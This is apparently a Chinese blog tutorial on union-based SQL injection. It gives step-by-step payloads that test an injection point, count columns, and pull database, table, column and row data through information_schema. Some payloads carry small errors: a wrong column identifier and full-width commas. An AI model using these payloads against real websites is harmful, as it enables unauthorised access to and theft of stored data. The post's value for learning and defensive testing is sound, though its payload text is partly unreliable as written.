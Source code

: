 ```yaml
---
layout: post
title:  "SQL注入之联合查询注入"
date:   2018-11-23 20:15:33 +0700
categories: [Web安全, SQL注入]
---
```


## 0x00 注入过程

1. 找注入点
2. 判断当前查询的字段数
3. 爆出数据库名
4. 爆出数据库表名
5. 爆出字段名
6. 爆数据项

```
1. 测试注入点
' 
' and 1=1
' and 1=2
') and 1=1

2.判断当前查询的字段数
 ' order by 10 # --直到报错为止，若报错，则字段数为前一个

3.爆出数据库名、版本号等
-1' union select 1，2，3，4，5，database(),version(),... //前面的语句不存在

4.爆出数据库表名
-1' union select 1,2，3,4,5，group_concat(table_name),..from information_schema.tables where table_schema =database()#

5.爆出字段名
-1' union select 1,2，3,4,5，group_concat(columns_name),..from information_schema.columns where table_name=(想要查询的表)#

6.爆数据项
-1' union select 1,2,3,4,5,字段名 from 表 #
```


